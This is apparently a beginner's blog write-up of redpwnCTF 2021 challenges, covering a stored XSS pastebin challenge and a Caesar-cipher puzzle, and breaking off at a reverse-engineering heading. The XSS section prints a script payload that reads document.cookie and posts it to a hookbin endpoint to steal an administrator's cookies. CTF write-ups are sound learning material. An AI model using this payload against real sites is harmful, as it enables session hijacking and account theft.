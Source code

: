 [meta]: <title> (redpwnCTF 2021)
[meta]: <subtitle> (A noob's perspective)
[meta]: <author> (Loek, Willem)
[meta]: <date> (July 13 2021)
[meta]: <tags> (hacking, CTF, writeup)
[meta]: <cover> (/img/redpwn2021.png)

This is the first 'real' CTF I've participated in. About two weeks ago, a
friend of mine was stuck on some challenges from the Radboud CTF. This was a
closed CTF more geared towards beginners (high school students), and only had a
few challenges which required deeper technical knowledge of web servers and
programming. Willem solved most of the challenges, and I helped solve 3 more.

Apart from those challenges, basically all my hacking knowledge comes from
computerphile videos, liveoverflow videos and making applications myself.

> epic announcement!!!
> 
> Willem has added explanations of the challenges he solved, so go read them!

## Challenges

### web/pastebin-1

This challenge is a simple XSS exploit. The website that's vulnerable is
supposed to be a clone of pastebin. I can enter any text into the paste area,
and it will get inserted as HTML code into the website when someone visits the
generated link.

The challenge has two sites: one with the pastebin clone, and one that visits
any pastebin url as the website administrator. The goal of this challenge is
given by it's description:

> Ah, the classic pastebin. Can you get the admin's cookies?

In JS, you can read all cookies without the `HttpOnly` attribute by reading
`document.cookie`. This allows us to read the cookies from the admin's browser,
but now we have to figure out a way to get them sent back to us.

Luckily, there's a free service called [hookbin](https://hookbin.com/) that
gives you an http endpoint to send anything to, and look at the request
details.

Combining these two a simple paste can be created:

```html
<script>
	var post = new XMLHttpRequest();
	post.open("post", "https://hookb.in/<endpoint url>");
	post.send(document.cookie);
</script>
```

### crypto/scissor

I wasn't planning on including this one, but it makes use of the excellent
[CyberChef](https://gchq.github.io/CyberChef/) tool. The flag is given in the
challenge description, and is encrypted using a ceasar/rot13 cipher. A simple
python implementation of this cipher is included with the challenge, but I just
put it into CyberChef and started trying different offsets.

### rev/wstrings
